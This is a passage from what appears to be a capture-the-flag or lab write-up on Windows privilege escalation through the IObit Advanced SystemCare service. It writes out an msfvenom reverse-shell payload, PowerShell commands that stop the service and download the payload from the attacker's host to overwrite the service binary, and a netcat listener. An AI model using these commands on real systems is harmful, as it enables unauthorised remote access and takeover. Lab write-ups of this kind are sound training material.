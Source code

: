  All we need to do is to create a windows reverse shell payload  using msfvenom and save it into a file with the same name as the service "ASSCService.exe". Then in order to upload and replace the legitimate file with our malicious payload file we need to first of all stop the **AdvancedSystemCareService9** service, then upload our payload into the same directory in order to overwrite the existing file.

Let's first create our payload:
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

![](images/20230913100821.png)
 Now lets stop the **AdvancedSystemCareService9**:
```shell
powershell -c "Stop-Service -Name 'AdvancedSystemCareService9' -Force"
```

And now transfer our payload to overwrite the file:
```shell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.8.129.243:80/ASCService.exe', 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe')"
```

Setup a netcat listener and start the service:

```shell
nc -lvnp 4443
```

```powershell
powershell -c "Start-Service -Name 'AdvancedSystemCareService9'"
```

and bingo! we have a shell.

![](images/20230913144245.png)

